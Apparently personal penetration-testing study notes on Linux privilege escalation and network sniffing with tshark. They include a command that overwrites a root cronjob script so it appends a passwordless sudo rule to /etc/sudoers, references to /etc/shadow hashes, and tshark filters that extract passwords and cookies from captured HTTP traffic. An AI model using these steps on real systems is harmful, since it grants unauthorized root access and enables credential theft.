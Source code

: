 **cronjobs**: look for cronjobs that runs scripts as root privileges `crontab -l` to list the cronjobs but it does not work everytime(why??)

after we found the file, that runs automatically, we go search what scripts uses that file. `grep -rnw / -e "/home/student/file_cronjob" 2>/dev/null`. This command will list the script/file that contains that path!. so we edit that script/file to get higher privileges. Ex: `printf '#!/bin/bash\necho "username ALL=NOPASSWD:ALL">> /etc/sudoers' > Script_Path`

`sudo -l` -> to list sudoers permissions

`student>sudo su` will be entered to root user with no password!!!

**Exploiting SUID Binaries**: 

/etc/passwd

/etc/shadow

$1 -> MD5

§2 -> Blowfish

$5 -> SHA-256

$6 -> SHA-512

# 3.2 Network-Based Attacks

## Tshark
-> Start capturing traffics with tshark
`tshark -i wlan0 -w capture-output.pcap`

-> Read from a pcap file
`tshark -r capture-output.pcap`

-> capture http request and filter for host and user-agent
`tshark -i wlan0 -Y http.request -T fields -e http.host -e http.user_agent`

-> 
`tshark -r traffic.pcap -Y "http contains password"`

`tcp.flags.reset==1`

`ip.dst==192.168.1.10`

`-T fields -E separator=, -e ip.src -e ip.dst`

`not (tcp.port == 80) and not (tcp.port == 25) and ip.addr == 192.168.0.1`

`not arp and not (udp.port == 53)`

`tshark -r traffic.pcap -Y "http contains password"`

`tshark -r traffic.pcap -Y "http.request.method==GET && http.host==yahoo.com" -T fields -e ip.dst`

`tshark -r traffic.pcap -Y "ip contains amazon.com && ip.src==192.168.1.1" -e ip.src -e http.cookie`

`tshark -r traffic.pcap -Y "ip.src==192.168.1.1 && http" -T fields -e http.user_agent`
